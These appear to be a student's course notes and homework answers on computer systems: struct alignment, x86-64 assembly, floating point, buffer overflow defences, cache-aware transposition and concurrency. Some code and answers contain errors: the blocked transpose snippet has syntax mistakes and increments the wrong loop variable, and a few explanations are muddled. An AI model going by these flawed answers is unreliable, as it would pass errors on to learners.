- Alignment principles
    - Aligned data
        - Primitive data type requires K bytes
        - Address must be multiple of K
        - Required on some machines; advised on x86-64
    - Motivation for aligning data
        - Memory accessed by (aligned) chunks of 4 or 8 bytes (system dependent)
            - Inefficient to load or store datum that spans quad word boundaries
            - Virtual memory trickier when datum spans 2 pages
    - Compiler
        - Inserts gaps in structure to ensure correct alignment of fields

- Struct
    - Structs are always aligned by the largest data member they contain
    - If they contain multiple data members of different sizes, the smaller sized values are "padded" with extra bytes until they also uphold the alignment property
    - The order in memory of the data members in the struct is the same order as defined in the code
    - If x is the starting address of a struct, then a data member of size 4 would start at either x, x+4, x+8, x+12...
    - How big is this struct in bytes? (Assume 64-bit architecture)
    ```
    struct westeros
    {
        char lannister; // 1 byte, plus 7 bytes of padding
        double* stark; // 8 bytes (pointer)
        short frey; // 2 bytes, plus 6 bytes of padding
        // total size: 24 bytes
    }
    ```
    
    ```
    struct westeros
    {
        char lannister; // 1 byte, plus 1 byte of padding
        short frey; // 2 bytes, plus 4 bytes of padding
        double* stark; // 8 bytes (pointer)
        // total size: 16 bytes
    }
    ```
    
    ```
    struct e {
        union // 8 bytes
        { 
            char b[6];
            char c[4]; 
            int k;
        } d;
        char a; // 1 byte, plus 3 bytes of padding (to the int)
    };
    ```
    
- Specific cases of alignment (x86-64)
    - 1 byte: char, ...
        - No restrictions on address
    - 2 bytes: short, ...
        - Lowest 1 bit of address must be 0_2
    - 4 bytes: int, float, ...
        - Lowest 2 bits of address must be 00_2
    - 8 bytes: double, long, char *, ...
        - Lowest 3 bits of address must be 000_2
    - 16 bytes: long double (GCC on Linux)
        - Lowest 4 bits of address must be 0000_2

## Homework 2

3.60

a. x: %rdi, n: %rsi, result: %rax, mask: %rdx

b. result: 0, mask: 1

c. mask != 0

d. mask = mask << n

e. result |= (x & mask)

f. 
``` 
long loop(long x, int n) {
    long result = 0;
    long mask;
    for (mask = 1; mask != 0; mask = mask << n) {
        result |= (x & mask);
    }
    
    return result;
}
```

Notes:
- %ecx is loop counter variable
- %rsp is stack pointer 
- %rip is next instruction pointer
- jne: jump if not equal
- %rax and %eax are diff bit versions of %ax
- %rdx and %edx are diff bit versions of %dx
- 0x4b(%rdi) = %rdi + 0x4b
- ,%rdi,8 = %rdi * 8

```
long loop (long x, int n)
x in %rdi, n in %esi, %rax is result

loop:
    movl    %esi, %ecx    // move %esi to %ecx, assign %ecx as x0, x0 = n
    movl    $1,   %edx    // move $1 to %edx, mask = 1 -> know %edx is mask bc of .L2 %rdx + provided code
    movl    $0,   %eax    // move $0 to %eax, result = 0 
    jmp     .L2

.L3:
    movq    %rdi, %r8     // move %rdi to %r8, assign %r8 as x2, x2 = x
    andq    %rdx, %r8     // %r8 = %r8 & %rdx, x2 = x2 & mask = x & mask
    orq     %r8,  %rax    // %rax = %rax | %r8, result = result | x2, SAME AS: result = result | (x & mask)
    salq    %cl,  %rdx    // %rdx = %rdx << %cl, %cl part of %rcx/%ecx = n, mask = mask << n 

.L2:
    testq   %rdx, %rdx    // checks rdx&rdx, sets a condition flag  
    jne     .L3           // jump to .L3 if not equal/not zero -> know it's zero bc rdx&rdx = 0
    rep; ret              // repeat until zero, return
```

```
long loop (long x, int n)
{
    long result = ______;
    long mask;
    for (mask = ____; mask ____; mask = ____) {
        result |= ________;
    }
    return result;
}
```

``` 
long loop(long x, int n) {
    long result = 0;
    long mask;
    for (mask = 1; mask != 0; mask = mask << n) {
        result |= (x & mask);
    }
    
    return result;
}
```

3.63

```
x in %rdi, n in %rsi, result in %rax
00000000004004f0 <switch_prob>:
  400590:       48 83 ee 3c             sub    $0x3c,%rsi                  // %rsi = %rsi - 60, n = n - 60
  400594:       48 83 fe 05             cmp    $0x5,%rsi                   // if n - 60 is ABOVE 5, we jump to default. the only cases left are 0,1,2,3,4,5. ->?
  400598:       77 29                   ja     400523 <switch_prob+0x33>   // for default (when n is above 5), jump to 400523
  40059a:       ff 24 f5 c0 05 40 00    jmpq   *0x4005c0(,%rsi,8)          // jump table at 0x4005c0
  4005a1:       48 8d 04 fd 00 00 00    lea    0x0(,%rdi,8),%rax           // result = 8 * x
  4005a8:       00 
  4005a9:       c3                      retq   
  4005aa:       48 89 f8                mov    %rdi,%rax                   // result = x
  4005ad:       48 c1 f8 03             sar    $0x3,%rax                   // result = result >> 3;
  4005b1:       c3                      retq   
  4005b2:       48 89 f8                mov    %rdi,%rax                   // result = x;
  4005b5:       48 c1 e0 04             shl    $0x4,%rax                   // result = result << 4;
  4005b9:       48 29 f8                sub    %rdi,%rax                   // result = result - x;
  4005bc:       48 89 c7                mov    %rax,%rdi                   // x = result
  4005bf:       48 0f af ff             imul   %rdi,%rdi                   // x = x * x
  4005c3:       48 8d 47 4b             lea    0x4b(%rdi),%rax             // default case: result = x + 75 -> how do you know this is default case
  4005c7:       c3                      retq   
```

```
(gdb) x/6gx 0x4006f8

0x4006f8:     0x00000000004005a1    0x00000000004005c3          // from this table, we can see we have a TOTAL of 6 cases, not including
0x400708:     0x00000000004005a1    0x00000000004005aa             any fall throughs or skipped cases. 
0x400718:     0x00000000004005b2    0x00000000004005bf
```

The jump table shows us the total number of cases we have for the switch statement. We can use the addresses to find where each case begins
in the assembly code. In addition, the cases go in order from top left to right. Any case that jumps to the default means it is SKIPPED
in the C code. The cases end with a "break" wherever there is a "retq" in the assembly code; otherwise, it is a fallthrough

```
long switch_prob(long x, long n) {
    long result = x;
    switch(n) {
        case 60: 
          result = 8 * x;
          break;
        case 62:              // case 61 is skipped because 0x4005c3 in jump table refers to default case == SKIPPED case
          result = 8 * x;     // notice this has the same assembly code as case 60!
          break;
        case 63:
          result = x;
          result = result >> 3;
          break;
        case 64:
          result = x;
          result = result << 4;
          result = result - x;
          x = result;
        case 65:
          x = x * x;
         default:
            result = x + 75;
    }
}
```

```
long switch_prob(long x, long n) {
    long result = x;
    switch(n) {
        case 60: 
        case 62:
            result = 8 * x;
            break;
        case 63: 
            result = x;
            result = result >> 3;
            // probably result = x >> 3;
            break;
        case 64:
            result = x;
            result = result << 4;
            result = result - x;
            x = result;
            // maybe x = (x << 4) - x;
        case 65:
            x = x * x;
        default: 
            result = x + 75;
    }

    return result;
}
```

## Homework 3

If the application were to output the value of magic8ball[3][4] – what would it be? i.e. what would be returned from the statement printf(“%s”, magic8ball[3][4]); 

magic8ball is a 3D array of characters size 1 byte, that is 8x8x8 in size. It starts at memory address 0x7fffffffe000 as denoted by the $1. To find the address of the first character in the array magic8ball[3][4] and eventually the output, we follow these steps:
- Start at the base address 0x7fffffffe000
- Add 3 * 8 * 8 (3 2D arrays, [3], 8 bytes is the size of each element in the array)
- Add 4 * 8 (4 1D arrays, [4], 8 bytes is the size of each element in the array)
- End up at 0x7fffffffe0e0 (3 * 8 * 8 + 4 * 8 = 224 bytes / 8 = 28 columns)
- The eight characters starting from that address are 0x57 0x72 0x6f 0x6e 0x67 0x00 0x00 0x00
- Using the ASCII table (HEX), the characters correspond to W r o n g Null Null Null
- "Wrong" would be returned from the printf statement

Note: magic8ball is an array of strings, and the strings are arrays of characters. Therefore, magic8ball[3][4] is looking for a specific string within the array of strings.

## Lecture 7-8
- x86-64 Linux memory layout
    - Stack
        - Runtime stack (8MB limit)
        - E.g., local variables
    - Heap
        - Dynamically allocated as needed
        - When call malloc(), calloc(), new()
    - Data
        - Statiscally allocated data
        - E.g., global vars, static vars, string constants
    - Text / Shared libraries
        - Executable machine instructions
        - Read-only
- Buffer overflow
    - When exceeding the memory size allocated for an array
    - #1 technical cause of security vulnerabilities
    - Most common form
        - Unchecked lengths on string inputs
        - Particularly for bounded character arrays on the stack
            - Sometimes referred to as stack smashing
- Worm
    - A program that can run by itself and can propagate a fully working version of itself to other computers
- Virus
    - Code that adds itself to other programs
    - Does not run independently
- Avoid overflow vulnerabilities in code
    - Use library routines that limit string lengths
        - `fgets` instead of `gets`
        - `strncpy` instead of `strcpy`
        - Don't use `scanf` with %s conversion specification
            - Use `fgets` to read the string
            - Or use %ns where n is a suitable integer
- System-level protections can help
    - Randomized stack offsets
        - At start of program, allocate random amount of space on stack
        - Shifts stack addresses for entire program
        - Makes it difficult for hacker to predict beginning of inserted code
    - Nonexecutable code segments
        - In traditional x86, can mark region of memory as either "read-only" or "writeable"
            - Can execute anything readable
        - x86-64 added explicit "execute" permission
        - Stack marked as non-executable
- Stack canaries can help
    - Idea
        - Place special value ("canary") on stack just beyond buffer
        - Check for corruption before exiting function
    - GCC Implementation
        - `-fstack-protector`
        - Now the default (disabled earlier)
- Union allocation
    - Allocate according to largest element
    - Can only use one field at a time
- Byte ordering
    - Idea
        - Short/long/quad words stored in memory as 2/4/8 consecutive bytes
        - Which byte is the most (least) significant?
        - Can cause problems when exchanging binary data between machines
    - Big endian
        - Most significant byte has lowest address
        - Least significant byte has highest address
        - Sparc
    - Little endian
        - Least significant byte has lowest address
        - Intel x86, ARM Android and IOS
    - Bi Endian
        - Can be configured either way
        - ARM
    ```
    0x100 | 0x108 | 0x110 | 0x118
    01    | 23    | 45    | 67      big endian
    67    | 45    | 23    | 01      little endian
    ```
- Summary of compound types in C
    - Arrays
        - Contiguous allocation of memory
        - Aligned to satisfy every element's alignment requirement
        - Pointer to first element
        - No bounds checking
    - Structures
        - Allocate bytes in order declared
        - Pad in middle and at end to satisfy alignment
    - Unions
        - Overlay declarations
        - Way to circumvent type system
- Fractional binary numbers
    - Representation
        - Bits to right of "binary point" represent fractional powers of 2
        - b_2 = 4, b_1 = 2, b_0 = 1, b_-1 = 1/2, b_-2 = 1/4
        - 5 3/4 = 101.11_2
        - 2 7/8 = 10.111_2
        - 1 7/16 = 1.0111_2
    - Observations
        - Divide by 2 by shifting right (unsigned)
        - Multiply by 2 by shifting left
        - Numbers of form 0.1111..._2 are just below 1.0
            - 1/2 + 1/4 + 1/8 + ... + 1/2^8 + ... -> 1.0
            - Use notation 1.0 - e
    - Representable numbers
        - Limitation #1
            - Can only exactly represent numbers of the form x/2^k
            - Other rational numbers have repeating bit representations
            - 1/3 = 0.0101010101[01]..._2
            - 1/5 = 0.001100110011[0011]..._2
            - 1/10 = 0.0001100110011[0011]..._2
        - Limitation #2
            - Just one setting of binary point within the w bits
                - Limited range of numbers
- Floating point representation
    - Numerical form: (-1)^s M 2^E
        - Sign bit s determines whether number is negative or positive
        - Significand M normally a functional value in range [1.0,2.0]
        - Exponent E weights value by power of two
    - Encoding
        - MSB s is sign bit s
        - exp field encodes E (but is not equal to E)
        - frac field encodes M (but is not equal to M)
        - s | exp | frac
    - Precision options
        - Single precision: 32 bits
            - s (1) | exp (8-bits) | frac (23-bits)
        - Double precision: 64 bits
            - - s (1) | exp (11-bits) | frac (52-bits)
        - Extended precision: 80 bits (Intel only)
            - s (1) | exp (15-bits) | frac (63/4-bits)
    - "Normalized" values
        - When exp DNE 000...0 and exp DNE 111...1
        - Exponent coded as a biased value: E = Exp - Bias
        - Exp: unsigned value of exp field
        - Bias = 2^(k-1) - 1, where k is number of exponent bits
            - Single precision: 127 (Exp: 1...254, E: -126...127)
            - Double precision: 1023 (Exp: 1...2046, E: -1022...1023)
        - Significand coded with implied leading 1: M = 1.xxx...x_2
            - xxx...x: bits of frac field
            - Minimum when frac=000...0 (M = 1.0)
            - Maximum when frac=111...1 (M = 2.0 - E)
            - Get extra leading bit for "free"
        - Example: 
            - v = (-I^2) M 2^E
            - E = Exp - Bias
            - Value: float F = 15213.0;
            - 15213_10 = 11101101101101_2 = 1.1101101101101_2 * 2^13
            - Significand
                - M = 1.1101101101101_2
                - frac = 11011011011010000000000_2
            - Exponent
                - E = 13
                - Bias = 127
                - Exp = 140 = 10001100_2
            - Result
                - 0 (s) | 10001100 (exp) | 11011011011010000000000 (frac)
    - Denormalized values
        - v = (-I)^s M 2^E
        - E = 1 - bias
        - Condition: exp = 000...0
        - Exponent value: E = 1 - bias (instead of E = 0 - bias)
        - Significant coded with implied leading 0: M = 0.xxx...x_2
            - xxx...x: bits of frac
        - Cases
            - exp = 000...0, frac = 000...0
                - Represents zero value
    - Special values
        - Condition: exp = 111...1
        - Case: exp = 111...1, frac = 000...0
            - Represents value infinity
            - Operation that overflows
            - Both positive and negative
            - E..g., 1.0/0.0 = -1.0/-0.0 = infinity, 1.0/-0.0 = -infinity
        - Case: exp = 111...1, frac DNE 000...0
            - Not-a-Number (NaN)
            - Representa case when no numeric value can be determined
            - E.g. sqrt(-1), infinity - infinity, infinity * 0
    - Tiny floating point example
        - s (1) | exp (4-bits) | frac (3-bits)
        - 8-bit floating point representation
            - The sign bit is in the most significant bit
            - The next four bits are the exponent, with a bias of 7
            - THe last three bits are the frac
- Floating point operations
    - x +f y = Round(x + y)
    - x *f y = Round(x * y)
    - Basic idea
        - First compute exact result
        - Make it fit into desire precision
            - Possibly overflow if exponent too large
            - Possibly round to fit into frac
- Rounding binary numbers
    - Binary fractional numbers
        - "Even" when least significant bit is 0
        - "Half way" when bits to right of rounding position = 100..._2
- Floating point in C
    - C guarantees two levels
        - float: single precision
        - double: double precision
    - Conversions/casting
        - Casting between int, float, and double changesbit representation
        - double/float -> int
            - Truncates fractional part
            - Like rounding toward zero
            - Not defined when out of range or NaN: generally sets to TMin
        - int -> double
            - Exact conversion, as long as int has <= 53 bit word size
        - int -> float
            - Will round according to rounding mode
            
## Homework 4

3.70

a. 
What are the offsets (in bytes) of the following fields:
```
union ele {
    struct {
        long *p;
        long y;
    } e1;

    struct {
        long x;
        union ele *next;
    } e2;
};
```
e1.p: 0 bytes (first field in the structure)

e1.y: 8 bytes (size of long *p because it comes after p, long = 8 bytes)

e2.x: 0 bytes (first field in the second structure)

e2.next: 8 bytes (size of long x because it comes after x)

b. 16 bytes

How many total bytes does the structure require?

To determine the total size of the structure, you need to consider the largest size of the individual members within the structure. The size of a structure is determined by the largest-sized member. The largest size among the members is the size of the second structure e2, which is 16 bytes (8 bytes for long x + 8 bytes for union ele *next). Therefore, the total size of the structure union ele is 16 bytes.

c. 
```
void proc(union ele *up)
up in %rdi
proc:
    // %rax = *(up+8), don't know it's next or y
    movq 8(%rdi), %rax   

    // %rdx = *( *(up+8) ), %rax stands for a pointer
    // so *( *(up+8) ) means *(up->e2.next)
    movq (%rax), %rdx

    // %rdx = *( *(up->e2.next) )
    // %rdx is treated as a pointer
    // so %rdx stores *( *(up->e2.next).e1.p )
    movq (%rdx), %rdx

    // %rax stores *(up+8)
    // %rax is treated as a pointer
    // so %rax = *( up->e2.next ), stands for another union ele's address 
    subq 8(%rax), %rdx

    // %rdi never changes in previous instrctions
    // instrction below is the final assignment
    // so (%rdi) means up->e2.x
    movq %rdx, (%rdi)
    ret
```

For the first line: The size of e1 is determined by the size of its largest member, which is long *p. If long is 8 bytes, then e1 will also be 8 bytes. Since e2 comes after e1 in the structure, we need to skip 8 bytes (the size of e1) to get to the beginning of e2 when accessing the structure in memory.

```
void proc(union ele *up) {
    up->e2.x = *(up->e2.next->e1.p) - up->e2.next->e1.y;
}
```

2.89
int: 32-bit two's-complement
float: 32-bit IEEE
double: 64-bit IEEE

int x = random();
int y = random();
int z = random();

double dx = (double) x;
double dy = (double) y;
double dz = (double) z;

Indicate whether or not the expression always yields 1 (true). 

a. `(float) x == (float) dx`: Yes. The conversion may cause rounding errors, but x and dx round the same way due to int->double being perfectly precise. 

b. `dx - dy = (double) (x-y)`: No. x = 0 and y = TMin_32 will yield 0.

c. `(dx + dy) + dz == dx + (dy + dz)`: Yes. Because each value is between TMin_32 and TMax_32, their sum can be represented exactly. Additionally: the associativity property of addition in floating-point arithmetic.

d. `(dx * dy) * dz == dx * (dy * dz)`: No. Let dx = TMax_32, dy = TMax_32 - 1, dz = TMax_32 - 2. Also, due to limited precision in floating-point representation, multiplying two very close double values might result in loss of precision.

e. `dx / dx == dz / dz`: No. If x = 0 and z = 1, you have problems with dividing by zero. (dx/dx yields undefined or garbage values)

## Lecture 9-10
- Generally useful optimizations
    - Code motion/precomputation
    - Strength reduction
    - Sharing of common subexpressions
    - Removing unnecessary procedure calls
- Optimization blockers
    - Procedure calls
    - Memory aliasing
- Exploiting instruction-level parallelism
- Dealing with conditionals
- The speed gap between CPU, memory, and mass storage continues to widen
- Well-written programs exhibit a property called locality
- Memory hierarchies based on caching close the gap by exploiting locality
    - Cache memories can have significant performance impact
- You can write your programs to exploit this
    - Focus on the inner loops, where bulk of computations and memory accesses occur
    - Try to maximize spatial locality by reading data objects with sequentially with stride 1
    - Try to maximize temporal locality by using a data object as often as possible once it's read from memory

## Homework 5

6.41
The screen you are working with is a 640 x 480 array of pixels. The machine you are working on has a 32 KB direct-mapped cache with 8-byte lines.

```
struct pixel {
    char r;
    char g;
    char b;
    char a;
};

struct pixel buffer[480][640];
int i, j;
char *cptr;
int *iptr;
```

Assume the following:
- sizeof(char) = 1 and sizeof(int) = 4
- buffer begins at memory address 0
- The cache is initially empty
- The only memory accesses are to the entries of the array buffer
    - Variables i, j, cptr, and iptr are stored in registers

What percentage of writes in the following code will hit in the cache?
```
for(j = 639; j >= 0; j--) {
    for(i = 479; i >= 0; i--) {
        buffer[i][j].r = 0;
        buffer[i][j].g = 0;
        buffer[i][j].b = 0;
        buffer[i][j].a = 0;
    }
}
```

75%. `line buffer[i][j].r = 0;` will always miss but `buffer[i][j].g/b/a = 0;` will hit.

6.45

Consider a procedure to copy and transpose the elements of an N x N matrix of type int. That is, for source matrix S and destination matrix D, we want to copy each elements s_i,j to d_j,i. This code can be written with a simple loop where the arguments to the procedure are pointers to the destination (dst) and source (src) matrices, as well as the matrix size N (dim). Your job is to devise a transpose routine that runs as fast as possible.

```
void transpose(int *dst, int *src, int dim)
{
    int i, j;
    for(i = 0; i < dim; i++)
        for(j = 0; j < dim; j++)
            dst[j*dim + i] = src[i*dim + j];
}
``` 

```
void effective_transpose(int *dst, int *src, int dim) {
  int i, j, a, b;
  int BLOCK = 16;

  for (i = 0; i <= dim - BLOCK; i += BLOCK)
    for (j = 0; j <= dim - BLOCK; j += BLOCK)
      for (a = i; a < i + BLOCK; a++)
        for (b = j; b < j + BLOCK; b++)
          dst[b * dim + a] = src[a * dim + b];

  int offset = i;

  for (i = offset; i <= dim - 1; i++)
    for (j = 0; j < offset; j += BLOCK)
      for (b = j; b < j + BLOCK; b++)
          dst[b * dim + i] = src[i * dim + b];

  for (i = 0; i <= dim - 1; i++)
    for (j = offset; j <= dim - 1; j++)
      dst[j * dim + i] = src[i * dim + j];
}
```

<!-- The provided code aims to improve the performance of the matrix transpose operation by utilizing loop blocking. This technique enhances cache locality and takes advantage of vectorization, resulting in potentially better overall performance. Here's a breakdown of the improvements:

Block Transpose: The code divides the matrix into blocks of size BLOCK x BLOCK. The outer two loops iterate over these blocks. By transposing these smaller blocks, the algorithm can take advantage of better cache utilization.

Loop Unrolling: The inner two loops, responsible for copying elements within a block, are unrolled. Loop unrolling reduces loop control overhead and increases instruction-level parallelism.

Reduced Memory Access: The memory access pattern is modified to improve data locality. Instead of accessing elements sequentially, the algorithm performs transpositions within the blocks, reducing cache misses.

Handling the Remainder: After processing full blocks, the code handles the remaining elements in the matrix that don't fit into complete blocks. This is done with separate loops for the remaining rows and columns.

Parameter Tuning: The block size (BLOCK) is a parameter that can be tuned for optimal performance. Different values of the block size may yield better results on different architectures, depending on cache sizes and memory hierarchies. -->

Use nested for loops to test the code block by block, with blocks of size 16 to transpose the elements. This provides better cache locality and potential performance improvements, especially when dealing with large matrices.

```
void transpose(int *dst, int *src, int dim) {
    int BLOCK = 16;
    for (int i = 0; i <= dim - BLOCK; i += BLOCK)
        for (int j = 0, j <= dim - BLOCK; j += BLOCK)
            for (int k = i; k < i + BLOCK; k++)
                for (int l = j; l < j + BLOCK, j++)
                    dst[l * dim + k] = src[k * dim + l];
}
```

<!-- Create 4 nested for loops that test the code block by block. Let's use blocks of size 16 to transpose the elements. We would write this using 4 for loops 
having pseudocode like this:
for (int i = 0; i < dim - block_size; i += block_size)
    for (int j = 0 ...)
        for (int k = i; k < i + block_size; k++)
            for (int l = j ...)
                dst[l * dim + k] = src[k * dim + l]; -->

<!-- ## Homework 6
i sadly do not know how to do most of these problems :(


### practice_old_exam
1. The value of i is: 6
2. e because column column row row ordering is the most inefficient; it deviates significantly from the access pattern of matrices

### practice_final_question_1
Padding: 12
00 bd 05 40
00 c4 05 40
00 fe 05 40 

### practice_final_question_2
1. The address of x.redvblue.blue.y[1] in HEX without leading 0’s: 6010d1
2. The value of x.redvblue.blue.y[1] in decimal: 198
3. The address of x.redvblue.blue.x[8] in HEX without leading 0’s: 6010c8
4. The value of x.redvblue.blue.x[8] in decimal: 254

### practice_final_question_3
1. gamma
2. gold
3. missing code fragment

### practice_final_question_4
b. The program would print the value 0 four times. -->

## Final Review

### Floating Point Numbers
- IEEE floating point
    - `[s][e][  f  ]`
    - s = sign bit
    - e = exponent
    - f = mantissa
- IEEE-754 32-bit 'Single'
    - 1 sign bit, 8 exponent bits, 23 fraction fits
- IEEE-754 64-bit 'Double'
    - 1 sign bit, 11 exponent bits, 52 fraction bits
- To convert bit form into decimal form:
    - Separate the sign, exponent, and fraction according to the standard
        - If exam uses 1 sign, 4 exponent, 10 fraction bits, use that
    - Interpret the bits in `[e]` part as a positive integer
        - That's the value of e for now
- The following is assumed to be IEEE-754 32-bit 'Single'; 1 sign, 8 exponent, 23 fraction bits
- Normalized numbers
    - When exponent in range 1 <= e <= 254 (bits are of the form 0...01 to 1...10)
    - Ex: `result = (sign) * 2^(e - 127) * 1.f`
- Denormalized "tiny" numbers
    - When e == 0
    - Ex: `result = (sign) * 2^(e - 127) * 0.f`
- Why do we subtract exponent bias from the value of e?
    - Linearly displace so that roughly half of the e represent negative exponent
- Why exactly 127?
    - About the mid of the possible values of e, when e is 8 bits
    - Bias = (2^|e| / 2) - 1
    - 8 exponent: Bias = (2^8 / 2) - 1 = 127
- What's 1.f or 0.f?
    - If f is 1 1 1 0 0 0 ...
    - Then 1.f is 1.1 1 1 0 0 0...
    - = 1 + 1/2 + 1/4 + 1/8 + 0 + 0...
    - = 1.875
- Infinity: e = 255, f = 0
- Zero: s = 0 or 1, e = 0, f = 0
- NaN: e = 255, f != 0
    - Most operations involving NaN will return a NaN (e.g. addition)
    - Comparing NaN to any value will return false/0
        - NaN == 4 equals 0
        - NaN == NaN also equals 0
- To convert the mantissa:
```
 1    1    1    1    
1/2  1/4  1/8  1/16 
```
- Convert the following single precision 32-bit floating point number to the corresponding decimal value: 0 10001101 10000000000000000000000
    - Sign: 0
    - Exponent: 10001101 = 141
    - Mantissa: 10000000000000000000000 = 1/2; 1.F = 1.5
    - -1^s * 2^(e - 127) * 1.F
    - = -1^0 * 2^(141 - 127) * 1.5
    - = 2^(14) * 1.5
- Problems
    - Overflow and underflow
    - Invalid operations (e.g., divide by zero, sq rt of negative)
    - Precision
        - (1 + 23) * log_10 (2) = 7.22 digits of precision for float
        - (1 + 52) * log_10 (2) = 15.95 digits of precisiion for double
- Tips
    - About half of all numbers between -1 and 1 in floating point
    - Write calculations to return results in that range
    - `printf("%.17f\n", value)`
        - Usually the best (lossless) printing of double value

### Program Optimization
- Hoisting/code motion: Doing more computation out of a loop
    - Ex: `arr[b*c + i] = arr2[b*c - i] => a = b*c (outside loop)`
```
for (int i = 0; i < n; i++) {
   for (int j = 0; j < n; j++) {
      arr[i*100 + j] = j;
   }
}
```
```
int tmp = 0;
for (int i = 0; i < n; i++) {
   tmp = i*100;

   for (int j = 0; j < n; j++) {
      arr[tmp + j] = j;
   }
}
```
- Strength reduction: Avoid expensive operations
    - Also consider bitwise operations over others (x << 3 vs x * 2 ^ 3)
    - Ex: `arr[i] = i * a => int tmp = 0; arr[i] = temp; tmp = tmp + a;`
```
c = 7;
for (i = 0; i < N; i++) {
   y[i] = c * i;
}
```
```
c = 7;
tmp = 0;
for (i = 0; i < N; i++) {
   tmp = tmp + c;
   y[i] = tmp;
}

```
- Common subexpression elimination: Store calculations instead of repeating them
    - Ex: `a = b + c + d; e = b + c + f; => tmp = b + c; a = tmp + d; e = tmp + f;`
```
a = b * c * d + f;
e = b * c * d * g;
```
```
tmp = b * c * d;
a = tmp + f;
e = tmp * g;
```
- Procedure calls: Avoid unnecessary function calls
    - Ex: `i < my_list.size(); => int size = my_list.size(); i < size;`
```
for (i = 0; i < strlen(s); i++) {
   for (j = i; j < strlen(s); j++) {
      ...
   }
}
```
```
length = strlen(s);
for (i = 0; i < length; i++) {
   for (j = i; j < length; j++) {
      ...
   }
}
```
- Memory aliasing: Eliminate compiler variable reload (explicitly telling the compiler that the loop can be unrolled)
```
for (i = 0; i < n; i++) {
   for (j = 0; j < n; j++) {
      arr1[i] += arr2[i*n + j];
   }
}
```
```
for (i = 0; i < n; i++) {
   int tmp = 0;
   for (j = 0; j < n; j++) {
      tmp += arr2[i*n + j];
   }
   arr1[i] = tmp;
}
```
- Tiling: Reduce access latency
```
for (i = 0; i < n; i++) {
  for (j = 0; j < n; j++) {
    dst[j*n + i] = src[i*n + j];
   }
}
```
```
for (i = 0; i < n; i+=BLOCK) {
 for (j = 0; j < n; j+=BLOCK) {
  for (a = i; a < i+BLOCK; a++) {
   for (b = j; b < j+BLOCK; b++) {
     dst[b*n + a] = src[a*n + b];
   }
}
```
- Loop unrolling: Doing more in the loop to reduce overhead
    - Ex: `i++, do something with i => i += 2, do something with i and i + 1`
    - Loop tiling/blocking: If doing memory accesses in loop, do unrolling to use cache effectively
```
// n - 1 jumps
for (i = 0; i < n; i++) {
   arr[i] = i;
}
```
```
// floor( (n-1) / 4 ) jumps
// unrolled 3x
for (i = 0; i < n-3; i+=4) {
   arr[i] = i;
   arr[i + 1] = i + 1;
   arr[i + 2] = i + 2;
   arr[i + 3] = i + 3;
}
```
-  Reassociation: Operations in next CPU cycle have no dependency on current cycle, so can start early; remove dependencies
    - Ex: `x = x OP (d[i] OP d[i+1]);`
```
// Each operation dependant on completion of the one prior
for (i = 0; i < n-1; i+=2) {
   sum = (sum + r[i]) + r[i+1];
}
```
```
// Right-side sum operations can be done independently
for (i = 0; i < n-1; i+=2) {
   sum = sum + (r[i] + r[i+1]);
}
```

### Instruction-level parallelism
- Breaking x86 instructions into lower instructions (microops) and executing these in parallel
- Pipelining/superscalar execution:
    - Hardware translator turns a x86 instruction (like addl reg1, reg2) into the low level microops needed to perform this instruction
    - Microops are then "pipelined" to be done in parallel
    - Problem?
        - Killed by conditional jumps
        - How can you know where you'll jump next, i.e. which instruction will be done next?
        - Guess! Go with what usually happens, keep track, and don't commit results if guessed incorrectly
- Out of order execution:
    - In-order processor:
        - Fetch the instruction
        - If inputs available, dispatch instruction to functional unit
            - If not, stall until available
        - Instruction executed by functional unit
        - Functional unit writes results back to register file
    - Out-of-order processor:
        - Fetch the instruction
        - Dispatch instruction to instruction queue
        - Instruction waits in queue until inputs available
            - Allowed to leave queue before older instructions
        - When inputs available, instruction sent to functional unit and executed
        - Results queued
        - After older instructions have written their results, this instruction get to write its results
    - Instruction control unit:
        - Talks to instruction cache
        - Fetches instructions, gives to Execution Unit
    - Execution unit: 
        - Is given microops to perform
        - Gives microops to hardware that can do it
            - Instruction either retired (commit its effect) or flushed (discarded)
        - Register renaming: using register other than named one to allow parallelism
- Ex: Under what circumstances will a compiler perform optimization?
    - The compiler will only perform optimizations when the result will behave identically to the unoptimized code
- Ex: How can you tell if an optimization is useful in the long run?
    - Use Amdahl's Law
    - Speedup = 1 / ((1 - a) + (a/k))
    - a = what fraction of your program is the hog
    - k = hog speedup factor
    - Speedup half of your program (a = 0.5) to be twice as fast (k = 2)
        - Total speedup is only 1.33

### Concurrency and Parallelism
- Concurrency
    - Used when we need to do multiple things at once
    - Different methods to implement concurrency:
        - Processes/Threads: Can run one after the other or in parallel
        - I/O Multiplexing (Events): Decide which event gets handled when
    - Note: Processes each have their own address space, but threads share address space with other threads within a process
    - Threads
        - Logical flow within a process
        - Can run concurrently
            - Context switch between threads (works similarly for processes)
- Thread level parallelism
    - Difference between a process and a thread
        - Threads are more lightweight
        - Threads share a memory space, while process have their own memory spaces
        - Threads maintain their own registers
        - Processes have their own address space while threads share address space with each other
        - Each process can have multiple threads
    - We can use TLP to split a program, ideally an embarrassingly parallel program, into independent tasks
    - Be careful about race conditions
- Shared memory
    - Threads within the same process can share memory
    - Problems occur when processes/threads access the same memory
    - How can we fix this?
        - Locks: Only allow 1 process/thread access to shared resource at a time
- Parallelism
    - Allowing multiple processes/threads to run at the same time
    - Difference from concurrency: It is a special type of concurrency
- Thread safety
    - Types of thread unsafe functions
        - Functions that don't protect shared variables
        - Functions that keep state over multiple invocations
        - Functions that return a pointer to a static variable
        - Functions that call thread unsafe functions
    - Reentrancy
        - When a function does not access any shared memory
- Problems
    - Race conditions
        - Correct output depends on order of execution of threads
        - Prevent these by using sempahores and mutexes 
    - Deadlock
        - Multiple processes/threads are waiting for conditions that will never acctually become true
- Deadlock
    - Four conditions necessary for deadlock
    - Mutual exclusive access: only one thread can access resource
    - Hold and wait: threads are able to grab locks one at a time and hold them while waiting for other locks
    - No preemption: no stealing locks from other threads
    - Circular waiting: there is a cycle in resource allocation graph
- Synchronization
    - Semaphores allow us to enforce the number of threads that can enter a section of code (they're essentially glorified counters)
